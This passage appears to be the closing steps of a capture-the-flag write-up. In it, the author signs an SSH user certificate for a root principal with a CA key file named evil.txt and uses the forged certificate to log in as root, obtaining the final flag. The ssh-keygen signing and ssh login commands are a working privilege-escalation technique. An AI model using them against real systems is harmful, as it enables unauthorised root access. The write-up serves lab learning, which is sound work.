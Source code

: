![Screenshot35](./screenshots/35.png)

__3. Sign:__

```bash
ssh-keygen -s evil.txt -z 1337 -I root -V -1w:forever -n root_user root.pub
```

__4. Login:__

```bash
ssh -o CertificateFile=root-cert.pub -i root root@localhost -p 2222
```

And there it is!

The final root flag!

![Screenshot36](./screenshots/36.png)
